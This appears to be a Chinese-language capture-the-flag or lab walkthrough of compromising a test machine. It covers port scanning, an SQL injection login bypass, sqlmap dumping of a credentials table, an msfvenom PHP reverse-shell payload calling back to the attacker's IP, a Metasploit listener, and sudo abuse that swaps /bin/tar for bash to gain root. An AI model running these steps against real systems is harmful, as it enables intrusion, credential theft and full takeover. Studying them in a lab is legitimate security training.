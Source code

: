 
# 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.17


# 实战
使用NMAP扫描端口，可以看到只开放了一个80端口
```
nmap -Pn -sV 192.168.1.17
```
![image.png](./assets/1657691498343-c378d19b-7cf8-45e5-8074-47793f766110.png)

访问Web服务显示`You must login to access restricted content`
![image.png](./assets/1657691502505-b42d1c2d-e962-4bc7-9e53-e03304171dbc.png)

尝试使用万能密码`' or 1=1 #`登录，登录成功
![image.png](./assets/1657691507396-b9277167-679f-4415-8d59-13d788ecc827.png)

在浏览网页中发现存在文件上传，尝试上传shell.php木马文件<br />生成木马文件，将得到的木马代码复制到文本中并命名位shell.php

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -f raw
```
![image.png](./assets/1657691513293-685edf14-f61f-4740-a26b-fcff50865996.png)

上传失败显示`已禁用用户alamo的主目录上载`
![image.png](./assets/1657691544433-5d14c166-45ee-4de5-8744-c65189db9c9c.png)

那么我们就需要找一个拥有上传权限的用户，在前面我们知道登录页面存在SQL注入，尝试使用SQLMAP爆库，使用burp抓包，将数据保存到2.txt中
![image.png](./assets/1657691563728-70f0745b-5824-4c17-ad91-184d2b307383.png)

```
sqlmap -r 2.txt -dbs
```
![image.png](./assets/1657691568285-638944cd-5037-461c-84e1-4374b9f8e217.png)

经过查找在creds库中的accounts表中存在username和password字段
```
sqlmap -r 2.txt -D creds -T accounts --columns
```
![image.png](./assets/1657691573159-b9f09c65-6d01-4c01-9cff-5ee4d4e20beb.png)

得到账号和密码
```
sqlmap -r 2.txt -D creds -T accounts -C username,password --dump
```
![image.png](./assets/1657691578258-4bd42c05-e58b-41ad-9b7d-7b71ac36ff86.png)

尝试使用jjames账号登录上传shell.php木马文件，成功上传
![image.png](./assets/1657691582169-f7e14df3-3141-4f24-a9dd-d6ea3f3b90b5.png)

找了很久没有找到上传文件所在的路径，尝试重新上传，这时我注意到在上传界面有`Enable the automatic extraction of gzip archives.(启用gzip存档的自动提取。)`，这次我们尝试将其勾选，上传压缩包然后自动提取文件。
```
tar -zcvf shell.tar.gz shell.php     --压缩shell.php
```
![image.png](./assets/1657691586118-a163f069-3840-455b-a4fb-54c4383457db.png)

依然是找了很久没有找到上传文件所在的目录，然后我发现在文件上传页面的标题`Home directory uploader(主目录上载程序)`，主目录，那么可能是将文件上传到了用户的主目录，尝试浏览`http://192.168.1.17/~jjames/`，果然找到了所上传的文件。
![image.png](./assets/1657691590046-ae5305c1-f2ca-4e36-b3ce-e147c6fd5a6f.png)

使用MSF启动监听
```
root@kali-xmtx:~/桌面#msfconsole                                           --启动MSF
msf6 > use exploit/multi/handler                                           --选择模块
exploit(multi/handler) > set payload php/meterpreter/reverse_tcp           --设置payload
msf6 exploit(multi/handler) > set lhost 192.168.1.10                       --设置IP
msf6 exploit(multi/handler) > set lport 4444                               --设置端口
msf6 exploit(multi/handler) > run                                          --运行
```
![image.png](./assets/1657691594817-067d8eaa-6c7e-4beb-9f5f-eb7310e910cb.png)

在Web页面点击上传的木马，成功反弹shell(注意：此处的木马文件必须是打包上传的，否则无法执行)
![image.png](./assets/1657691600314-db8b9c4b-0f86-4b3a-becf-17e376dd0d22.png)

进入shell输入`python -c 'import pty;pty.spawn("/bin/bash")'`使界面变得正常，查看权限
![image.png](./assets/1657691604839-afab33ad-fca7-4af7-b1c9-cfee6f7fb9b4.png)

使用`sudo -l`命令，可以看到有多个命令将允许用户www-data以root身份进行sudo
![image.png](./assets/1657691609118-1d2f3b1d-bdbc-48c7-8e61-7e3d59f7767a.png)

转到`/tmp`目录，将`/bin/bash`文件复制到`/tmp`文件夹，更改文件`/tmp/bash`的所有权，以便从此以后的根成为所有者
![image.png](./assets/1657691612868-c504a0dd-21d0-4997-9659-a11c8d96827a.png)

将现有的`/bin/tar`文件备份到`bin/tar.bak`，然后将`/tmp/bash`文件移动到`/bin/tar`，执行命令/bin/tar
![image.png](./assets/1657691616760-a5f1c43b-1856-4184-a94a-e0d3d796979e.png)

查看权限，成功获取到root权限
![image.png](./assets/1657691620921-700c9c4a-86ec-4466-868a-94c4828d2cee.png)
